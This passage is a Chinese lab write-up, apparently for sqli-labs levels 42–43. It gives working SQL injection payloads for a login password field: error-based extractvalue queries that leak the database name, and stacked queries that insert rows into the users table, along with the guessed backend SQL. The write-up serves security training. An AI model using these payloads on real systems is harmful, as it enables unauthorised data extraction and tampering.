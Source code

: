 ```
username:任意
password:1'and extractvalue(1,concat(0x7e,(select database())))#
```



> 插入数据

```
username:任意
password:1'; insert into users values(34,'d','d');#
```







猜测后端sql：

```
select * from users where username='前端数据' and password='前端数据' limit 0,1;
```





#### 43.

此题和42题基本相似 ，只是42题采用`'`单引号闭合，此题使用`'`和`()`闭合。



与42题相似，此题爆表结构使用报错注入，插入数据使用堆叠注入。



payload:



> 爆表结构

```
username:任意
password:1') and extractvalue(1,concat(0x7e,(select database())))#
```



> 插入数据

```
username:任意
password:1');insert into users values(36,'g','g');#
```





猜测后端sql语句：

```
select * from users where username=('前端数据') and password=('前端数据') limit 0,1;
```

> 此处用户名被过滤了，用户密码未被过滤
